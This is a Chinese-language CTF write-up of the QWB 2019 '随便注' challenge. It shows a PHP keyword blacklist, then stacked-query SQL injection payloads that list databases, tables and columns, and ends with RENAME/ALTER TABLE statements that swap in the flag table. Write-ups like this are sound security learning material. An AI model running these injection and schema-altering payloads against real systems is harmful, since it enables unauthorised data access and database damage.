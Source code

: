 # 强网杯2019-Writeup

### 随便注：

![1576313506162](强网杯_2019-Writeup.assets/1576313506162.png)

构造URL发现是否存在注入点（废话）

``` url
/?inject=1 ' or '1'='1';#
```

![1576314055495](强网杯_2019-Writeup.assets/1576314055495.png)

通过查询发现，直接把原始的返回数据给返回到页面



随意构造了一个shelect语句，返回了过滤信息：

```
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```

可以发现，这里过滤了：`select` `update` `dalete` `drop` `insert` `where` `.` 等敏感关键词

过滤的单词非常多，通过判断可以基本判定使用“**[堆叠注入（堆查询）](https://www.cnblogs.com/0nth3way/articles/7128189.html)**”是第一选择

构造堆叠注入判断Payload：`/?inject=1';show databases;#`查询所有数据库的库名

![1576314446969](强网杯_2019-Writeup.assets/1576314446969.png)

喏！可以判定这里存在“堆叠注入”

- 查询表名：`/?inject=1';show tables;#`

- 通过查询发现存在两个表：**words** 和 **1919810931114514** 

- 查询表字段：
  - `/inject=1';show columns from 1919810931114514;# `
    - 存在“flag“字段
    - 这张表里有flag
  - `/inject=1';show columns from words;#`
    - 存在 “id”和“data"两个字段
    - 可以发现这个表就是提交查询数据的那张表



从前辈的WP中了解到一招，将查询的默认表”words”改为“1919810931114514”

``` mysql
/?inject=1';
RENAME TABLE `words` TO `words1`;
RENAME TABLE `1919810931114514` TO `words`;
ALTER TABLE `words` CHANGE `flag` `id` VARCHAR(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;
show columns from words;#`
```

> - 表名重命名：`RENAME TABLE '原表名' TO '新表名'`
>
> - [ALTER TABLE](https://www.w3school.com.cn/sql/sql_alter.asp)：用于在已有的表中添加、修改或删除列
>   - ADD：添加字段 `ALTER TABLE 'table' ADD '新字段名' '类型'`
>   - DROP：删除字段`ALTER TABLE 'table' DROP COLUMN '字段名'`
>   - CHANGE：修改字段`ALTER TABLE 'table' CHANGE '字段名' '新字段名' 类型`
>

构造:`/?inject=1 ' or '1'='1';#` 获得Flag！